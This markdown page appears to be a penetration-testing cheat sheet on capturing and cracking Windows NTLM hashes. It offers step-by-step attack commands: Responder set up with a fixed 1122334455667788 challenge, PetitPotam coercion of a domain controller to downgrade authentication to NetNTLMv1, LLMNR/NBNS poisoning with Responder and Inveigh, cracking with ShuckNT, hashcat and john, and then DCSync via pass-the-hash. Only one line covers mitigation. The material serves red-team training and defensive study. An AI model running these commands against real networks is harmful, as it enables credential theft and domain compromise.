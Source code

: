 # Hash - Capture and Cracking

## LmCompatibilityLevel

LmCompatibilityLevel is a Windows security setting that determines the level of authentication protocol used between computers. It specifies how Windows handles NTLM and LAN Manager (LM) authentication protocols, impacting how passwords are stored and how authentication requests are processed. The level can range from 0 to 5, with higher levels generally providing more secure authentication methods.

```ps1
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v lmcompatibilitylevel
```

* **Level 0** - Send LM and NTLM response; never use NTLM 2 session security. Clients use LM and NTLM authentication, and never use NTLM 2 session security; domain controllers accept LM, NTLM, and NTLM 2 authentication.
* **Level 1** - Use NTLM 2 session security if negotiated. Clients use LM and NTLM authentication, and use NTLM 2 session security if the server supports it; domain controllers accept LM, NTLM, and NTLM 2 authentication.
* **Level 2** - Send NTLM response only. Clients use only NTLM authentication, and use NTLM 2 session security if the server supports it; domain controllers accept LM, NTLM, and NTLM 2 authentication.
* **Level 3** - Send NTLM 2 response only. Clients use NTLM 2 authentication, and use NTLM 2 session security if the server supports it; domain controllers accept LM, NTLM, and NTLM 2 authentication.
* **Level 4** - Domain controllers refuse LM responses. Clients use NTLM authentication, and use NTLM 2 session security if the server supports it; domain controllers refuse LM authentication (that is, they accept NTLM and NTLM 2).
* **Level 5** - Domain controllers refuse LM and NTLM responses (accept only NTLM 2). Clients use NTLM 2 authentication, use NTLM 2 session security if the server supports it; domain controllers refuse NTLM and LM authentication (they accept only NTLM 2).A client computer can only use one protocol in talking to all servers. You cannot configure it, for example, to use NTLM v2 to connect to Windows 2000-based servers and then to use NTLM to connect to other servers. This is by design.

## Capturing Net-NTLMv1/NTLMv1 hashes

> Net-NTLMv1 (NTLMv1) authentication tokens are used for network authentication. They are derived from a challenge/response DES-based algorithm with the user's NT-hash as symetric keys.

:information_source: Coerce a callback using PetitPotam or SpoolSample on an affected machine and downgrade the authentication to **NetNTLMv1 Challenge/Response authentication**. This uses the outdated encryption method DES to protect the NT/LM Hashes.

**Requirements**:

* `LmCompatibilityLevel = 0x1`: Send LM and NTLM response

**Exploitation**:

* Capturing using [lgandx/Responder](https://github.com/lgandx/Responder): Edit the `/etc/responder/Responder.conf` file to include the magical **1122334455667788** challenge

    ```ps1
    HTTPS = On
    DNS = On
    LDAP = On
    ...
    ; Custom challenge.
    ; Use "Random" for generating a random challenge for each requests (Default)
    Challenge = 1122334455667788
    ```

* Fire Responder: `responder -I eth0 --lm`, if `--disable-ess` is set, extended session security will be disabled for NTLMv1 authentication
* Force a callback:

    ```ps1
    PetitPotam.exe Responder-IP DC-IP # Patched around August 2021
    PetitPotam.py -u Username -p Password -d Domain -dc-ip DC-IP Responder-IP DC-IP # Not patched for authenticated users
    ```

## Cracking Net-NTLMv1/NTLMv1 hashes

* If you got some `NetNTLMv1 tokens`, you can try to **shuck** them online via [shuck.sh](https://shuck.sh/) or locally/on-premise via [ShuckNT](https://github.com/yanncam/ShuckNT/) to get NT-hashes corresponding from [HIBP database](https://haveibeenpwned.com/Passwords). If the NT-hash has previously leaked, the NetNTLMv1 is converted to NT-hash ([pass-the-hash](./hash-pass-the-hash.md) ready) instantly. The [shucking process](https://www.youtube.com/watch?v=OQD3qDYMyYQ) works for any NetNTLMv1 with or without ESS/SSP (challenge != `1122334455667788`) but mainly for user account (plaintext previsouly leaked).

    ```ps1
    # Submit NetNTLMv1 online to https://shuck.sh/get-shucking.php
    # Or shuck them on-premise via ShuckNT script:
    $ php shucknt.php -f tokens-samples.txt -w pwned-passwords-ntlm-reversed-ordered-by-hash-v8.bin

    [...]
    10 hashes-challenges analyzed in 3 seconds, with 8 NT-Hash instantly broken for pass-the-hash and 1 that can be broken via crack.sh for free.
    [INPUT] ycam::ad:DEADC0DEDEADC0DE00000000000000000000000000000000:70C249F75FB6D2C0AC2C2D3808386CCAB1514A2095C582ED:1122334455667788
    [NTHASH-SHUCKED] 93B3C62269D55DB9CA660BBB91E2BD0B
    ```

* If you got some `NetNTLMv1 tokens`, you can also try to crack them via [crack.sh](https://crack.sh/)/[ntlmv1.com](https://ntlmv1.com/). For this you need to format them to submit them on [crack.sh](https://crack.sh/netntlm/)/[ntlmv1.com](https://ntlmv1.com/). The converter of [shuck.sh](https://shuck.sh/) can be used to format easily.

    ```ps1
    # When there is no-ESS/SSP and the challenge is set to 1122334455667788, it's free (0$):
    username::hostname:response:response:challenge -> NTHASH:response
    NTHASH:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972

    # When there is ESS/SSP or challenge != 1122334455667788, it's chargeable from $20-$200:
    username::hostname:lmresponse+0padding:ntresponse:challenge -> $NETNTLM$challenge$ntresponse
    $NETNTLM$DEADC0DEDEADC0DE$507E2A2131F4AF4A299D8845DE296F122CA076D49A80476E
    ```

* Finaly, if no [shuck.sh](https://shuck.sh/) nor [crack.sh](https://crack.sh/) can be used, you can try to break NetNTLMv1 with Hashcat / John The Ripper. Use [Net-NTLMv1 Rainbow Tables](https://tables.blurbdust.pw/) to speed up the plain text recovery.

    ```ps1
    john --format=netntlm hash.txt
    hashcat -m 5500 -a 3 hash.txt # for NetNTLMv1(-ESS/SSP) to plaintext (for user account)
    hashcat -m 27000 -a 0 hash.txt nthash-wordlist.txt # for NetNTLMv1(-ESS/SSP) to NT-hash (for user and computer account, depending on nthash-wordlist quality)
    hashcat -m 14000 -a 3 inputs.txt --hex-charset -1 /usr/share/hashcat/charsets/DES_full.hcchr ?1?1?1?1?1?1?1?1 # for NetNTLMv1(-ESS/SSP) to DES-keys (KPA-attack) of user/computer account with 100% success rate, then regenerate NT-hash with these DES-keys on https://shuck.sh/converter.php.
    ```

* Now you can DCSync using the Pass-The-Hash with the DC machine account

:warning: NetNTLMv1 with ESS / SSP (Extended Session Security / Security Support Provider) changes the final challenge by adding a new alea (!= `1122334455667788`, so chargeable on [crack.sh](https://crack.sh/)).

:warning: NetNTLMv1 format is `login::domain:lmresp:ntresp:clientChall`. If the `lmresp` contains a **0's-padding** this means that the token is protected by **ESS/SSP**.

:warning: NetNTLMv1 final challenge is the Responder's challenge itself (`1122334455667788`) when there is no ESS/SSP. If ESS/SSP is enabled, the final challenge is the first 8 bytes of the MD5 hash from the concatenation of the client challenge and server challenge. The details of the algorithmic generation of a NetNTLMv1 are illustrated on the [shuck.sh Generator](https://shuck.sh/generator.php) and detailed in [MISCMag#128](https://connect.ed-diamond.com/misc/misc-128/shuck-hash-before-trying-to-crack-it).

:warning: If you get some tokens from other tools ([OpenSecurityResearch/hostapd-wpe](https://github.com/OpenSecurityResearch/hostapd-wpe) or [moxie0/chapcrack](https://github.com/moxie0/chapcrack)) in other formats, like tokens starting with the prefix `$MSCHAPv2$`, `$NETNTLM$` or `$99$`, they correspond to a classic NetNTLMv1 and can be converted from one format to another [here](https://shuck.sh/converter.php).

**Mitigations**:

* Set the Lan Manager authentication level to `Send NTLMv2 responses only. Refuse LM & NTLM`

## Capturing and cracking Net-NTLMv2/NTLMv2 hashes

If any user in the network tries to access a machine and mistype the IP or the name, Responder will answer for it and ask for the NTLMv2 hash to access the resource. Responder will poison `LLMNR`, `MDNS` and `NETBIOS` requests on the network.

* [lgandx/Responder](https://github.com/lgandx/Responder)

    ```powershell
    sudo ./Responder.py -I eth0 -wfrd -P -v
    ```

* [Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

    ```powershell
    .\inveighzero.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6 Y -LLMNRv6 Y [-Elevated N]
    ```

* [EmpireProject/Invoke-Inveigh.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/collection/Invoke-Inveigh.ps1)

    ```powershell
    Invoke-Inveigh [-IP '10.10.10.10'] -ConsoleOutput Y -FileOutput Y -NBNS Y –mDNS Y –Proxy Y -MachineAccounts Y
    ```

Crack the hashes with Hashcat / John The Ripper

```ps1
john --format=netntlmv2 hash.txt
hashcat -m 5600 -a 3 hash.txt
```

## References

* [NTLMv1_Downgrade.md - S3cur3Th1sSh1t - 09/07/2021](https://gist.github.com/S3cur3Th1sSh1t/0c017018c2000b1d5eddf2d6a194b7bb)
* [Practical Attacks against NTLMv1 - Esteban Rodriguez - September 15, 2022](https://trustedsec.com/blog/practical-attacks-against-ntlmv1)
* [Attacking LM/NTLMv1 Challenge/Response Authentication - defence in depth - April 21, 2011](http://www.defenceindepth.net/2011/04/attacking-lmntlmv1-challengeresponse_21.html)
* [CRACKING NETLM/NETNTLMV1 AUTHENTICATION - crack.sh](https://crack.sh/netntlm/)
* [NTLMv1 to NTLM Reversing - evilmog - 03-03-2020](https://hashcat.net/forum/thread-9009-post-47806.html)

